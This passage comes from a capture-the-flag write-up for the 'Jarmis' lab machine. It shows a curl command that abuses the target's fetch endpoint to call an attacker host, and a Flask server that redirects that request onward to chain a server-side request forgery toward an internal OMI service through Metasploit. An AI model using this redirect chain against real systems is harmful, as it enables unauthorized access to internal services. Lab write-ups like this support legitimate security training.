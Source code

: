 ```bash
curl http://jarmis.htb/api/v1/fetch?endpoint="https://10.10.16.7:4443/SYtThFH5"
```

<br/> 
<img src="/img/Jarmis_Screenshots/Pasted image 20250102001451.png" alt="1" style="width:700px; height:auto;">
<br/>

We get a `hit`.   

What we need to do now, is to make a `python` server that `redirect` the request once more ( this will simulate the redirection internally to the `OMI` server).    

```python
from flask import Flask, redirect
from urllib.parse import quote

app = Flask(__name__)

@app.route('/')
def root():
    return redirect('http://10.10.16.7:4444', code=301)

if __name__ == "__main__":
    # Run the Flask server with ad-hoc SSL
    app.run(ssl_context='adhoc', debug=True, host="10.10.16.7", port=4445)****
```

We run the `server` , then we need to change the `redirectionURL` in the `metasploit` server to be `https://10.10.16.7:4443` then run.   

<br/> 
<img src="/img/Jarmis_Screenshots/Pasted image 20250102002449.png" alt="1" style="width:700px; height:auto;">
<br/>
